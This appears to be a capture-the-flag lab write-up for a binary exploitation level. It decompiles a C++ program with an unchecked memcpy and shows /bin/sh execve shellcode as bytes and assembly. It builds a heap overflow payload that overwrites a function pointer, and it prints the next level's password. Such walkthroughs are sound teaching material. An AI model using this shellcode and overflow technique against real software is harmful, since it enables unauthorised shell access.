 get the binary on host
* `scp -P 4242 level9@192.168.56.107:./level9 ./binary/level9`

decompile using ghidras
```c
void main(int param_1,int param_2)
{
	N *this;
	code **this_00;
	
	if (param_1 < 2) {
						/* WARNING: Subroutine does not return */
		_exit(1);
	}
	this = (N *)operator.new(0x6c);
	N::N(this,5);
	this_00 = (code **)operator.new(0x6c);
	N::N((N *)this_00,6);
	N::setAnnotation(this,*(char **)(param_2 + 4));
	(**(code **)*this_00)(this_00,this);
	return;
}

void __thiscall N::setAnnotation(N *this,char *param_1)
{
	undefined4 uVar1;
	
	uVar1 = strlen(param_1);
	memcpy(this + 4,param_1,uVar1);
	return;
}

```

here is a great shell code from adbenoit
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

To generate it create a shellcode.nasm
```s
xor     eax, eax    ;Clearing eax register
push    eax         ;Pushing NULL bytes
push    0x68732f2f  ;Pushing //sh
push    0x6e69622f  ;Pushing /bin
mov     ebx, esp    ;ebx now has address of /bin//sh
push    eax         ;Pushing NULL byte
mov     edx, esp    ;edx now has address of NULL byte
push    ebx         ;Pushing address of /bin//sh
mov     ecx, esp    ;ecx now has address of address
                    ;of /bin//sh byte
mov     al, 11      ;syscall number of execve is 11
int     0x80        ;Make the system call
```
compile it
* `nasm -f elf shellcode.asm`

Use objdump to get the shellcode bytes:
* `objdump -d -M intel shellcode.o`

Extracting the bytes gives us the shellcode
* `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

What we need to create the payload :
* addr of N (were our input get memcpy)  ===> 0x08040a10
* a shell code ===> we got one
* adding byte totaling 108 char with the 2 previous element
* addr of N+4 (were our input get memcpy) ===> 0x08040a0c

`./level9 $(python -c "print '\x10\xa0\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' + '\x90'*79 +'\x0c\xa0\x04\x08'")`
```bash
$ cat /home/user/bonus0/.pass
	f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```